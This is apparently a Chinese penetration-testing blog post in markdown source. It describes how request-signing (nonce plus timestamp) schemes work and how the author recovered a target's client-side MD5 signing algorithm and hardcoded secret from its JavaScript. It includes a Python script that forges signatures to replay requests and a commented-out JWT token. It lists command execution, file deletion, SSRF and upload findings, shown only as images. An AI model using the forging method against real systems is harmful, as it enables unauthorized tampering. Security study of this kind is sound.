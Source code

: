 ```yaml
---
layout: post
title: 一次验签机制伪造绕过引起的血案
noToc: true
date: 2020-01-18 15:30:00 +0800
tags: WEB安全  渗透测试
cover: '../assets/sign.png' 
---
```


## 一次验签机制伪造绕过引起的血案

### 背景

在实际资产网站中比较有安全意识的开发，为了防止攻击者获的请求数据包和参数进行伪造和重放，会在每一次请求中加上sig/sign验签机制，来保证请求不会被伪造和重放，确保请求的安全性。

主要防御措施可以归纳为两点：

- 对请求合法性进行校验
- 对请求的数据进行校验

而sig的核心是参数值防戳改+防二次请求。

nonce方案，加上仅一次有效的随机字符串，如：加密算法MD5/hash(random_string+token+request_param+param+param_value)处理后生成一个一次性有效的字符串值sig，存起来或在集合中，第二次先进行判断若出现相同的sig则认为重放，若放在集合则产生一个问题集合会无限扩大。

timestamp方案，即timestamp和其他参数一起进行数字签名。一次正常的HTTP请求，从发出到达服务器一般都不会超过一个规定的时间范围假设为60s，那么在60s之内也就可以进行重放攻击。

所以现在采用较为安全的方案一般可以是，nonce+timetamp方案，timetamp保证60s之外无法进行重放伪造，nonce又保证了60s之内请求的一次性有效，timetamp下60s后sig失效,同时解决集合无限放大的问题。

但是尽管sig生成机制多么的严密，理论上来说，还是防不了攻击者自己生成sign，因为客户端需要发送合法的数据包，那么生成的算法代码一定会出现在在客户端里（js）中，所以只要得到客户端的sign生成算法仍然存在sign伪造绕过。卸下验签机制的伪装后系统往往存在着许多严重的漏洞。就像下面的案例。

### 进入主题

最近渗透某系统时发现在前端每一步请求时都会生成一个sig验签机制，来保证请求的数据和提交的请求不可被重放。在验签机制的生成可在前端**taw-app.js**中查看其签名机制的生成原理，即

md5((e.indexOf("?") > 0 ? r.objKeySort($.parseJSON('{"' + e.split("?")[1].replace(/=/g, '":"').replace(/&/g, '","') + '"}')) : "{}") + d + sessionStorage.getItem("token") + a["default"].ajaxStr);

如下图

![img1]({{site.baseurl}}/assets/images/sign_pass/1.png)

sessionStorage.getItem("token")为jwt token固定且已知，d为6位生成的随机字符串（也可忽略可在下一次重新生成一个）r为doOutput->this传入的对象t

![im2]({{site.baseurl}}/assets/images/sign_pass/2.png)

![img3]({{site.baseurl}}/assets/images/sign_pass/3.png)

t为用户请求的功能接口可控。

用objKeySort如下图解析接口提交的data数据将等于号替换成冒号等操作转化为json格式然后按照键进行排序得到新的json数据。

![img4]({{site.baseurl}}/assets/images/sign_pass/4.png)

只有一个a["default"].ajaxStr未知，但该参数值也为一个固定值，

 

 

![img5]({{site.baseurl}}/assets/images/sign_pass/5.png)

 

 

![img6]({{site.baseurl}}/assets/images/sign_pass/6.png)

 

 

在这种情况下若a["default"].ajaxStr参数被泄露，攻击者可根据构造的数据包重新伪造一个签名进行重放，如下删除请求，后台代码中对参数并未进行过滤直接拼接进行任意文件操作，

![img7]({{site.baseurl}}/assets/images/sign_pass/7.png)

对应后端代码，存在任意文件删除，若签名伪造成功则可完成攻击。

![img8]({{site.baseurl}}/assets/images/sign_pass/8.png)

，代码多处存在问题，因此ajaxStr若能够在前台泄露则可造成在验签机制被伪造绕过的情况下系统的多处漏洞（使用到的危险函数未过滤）被触发的风险。

根据客户端中以上js中验签机制生成算法流程可以得到：

sig=md5({"param":"value"}+random_string+token+ajaxStr)

###  卸下sig伪装

抓取一个请求包

![img9]({{site.baseurl}}/assets/images/sign_pass/9.png)

token=

![img11]({{site.baseurl}}/assets/images/sign_pass/14.png)

调试js,获取ajaxstr

<img src="{{site.baseurl}}/assets/images/sign_pass/10.png" alt="img10"  />

ajaxStr="f%>zDq&6XqiY"

得到

sig=md5({"param":"value"}+random_string+token+ajaxStr)

中各参数的值

![img12]({{site.baseurl}}/assets/images/sign_pass/11.png)

![img13]({{site.baseurl}}/assets/images/sign_pass/12.png)

根据客户端js的验签机制生成算法python进行复现及伪造

![img14]({{site.baseurl}}/assets/images/sign_pass/13.png)

sig伪造exp

```python
import random
import string
import json
import time
import hashlib

def parseJSON(dataStr):
	strJSON="{'"+dataStr.replace("=","':'").replace("&","','")+"'}"
	return strJSON
def objKeySort(json_str):
	SortJson=json.dumps(eval(json_str),sort_keys=True)
	print(SortJson)
	print(type(SortJson))
	return SortJson
a = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]

#token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVybWFuIiwiaWF0IjoxNTc4OTA2Mzk3LCJpcGFkZHIiOiIxOTIuMTY4Ljg2LjIzMiIsImxvZyI6MTU3ODkwNjM5MSwidWlkIjoiIn0.OE9DEe2qS6p1eQeXXxGoUTfjMQZn3E8Ni73V2BIcc5Y";
token=''

if token=='':
	token=input("请输入token:")
	dataStr=''

if dataStr=='':
	dataStr=input("请输入提交的数据：")
jsonStr=parseJSON(dataStr)
print("Sort前-JSON:"+jsonStr+'\n')
objKeySort_JSON=objKeySort(jsonStr).replace(": ",":").replace(", ",",")
print("Sort后-JSON:"+objKeySort_JSON+'\n')
ajaxStr="f%>zDq&6XqiY";
num=''.join(random.sample(a,6));
num1='5WUX51';
#抓包下载
str_sig=str('''{"pcap_name":"pcap_20200113_155745.pcap|test|"}''')+num+token+ajaxStr;
#添加数据
str_sig=objKeySort_JSON+num+token+ajaxStr;

a = hashlib.md5()
a.update(str_sig.encode(encoding='utf-8'))
sig=a.hexdigest()
print("加密的字符串为："+str_sig+'\n')
print("sig:"+sig+'\n');
print("non:"+num+'\n');
print(dataStr+"&non="+num+"&sig="+sig);
```

### 渗透开始

#### 命令执行

![img15]({{site.baseurl}}/assets/images/sign_pass/15.png)

#### 任意文件删除

![img16]({{site.baseurl}}/assets/images/sign_pass/16.png)

![img17]({{site.baseurl}}/assets/images/sign_pass/17.png)

![img18]({{site.baseurl}}/assets/images/sign_pass/18.png)

![img19]({{site.baseurl}}/assets/images/sign_pass/19.png)

![img20]({{site.baseurl}}/assets/images/sign_pass/20.png)

#### SSRF

![img21]({{site.baseurl}}/assets/images/sign_pass/21.png)

#### 任意文件上传

![img22]({{site.baseurl}}/assets/images/sign_pass/21.png)
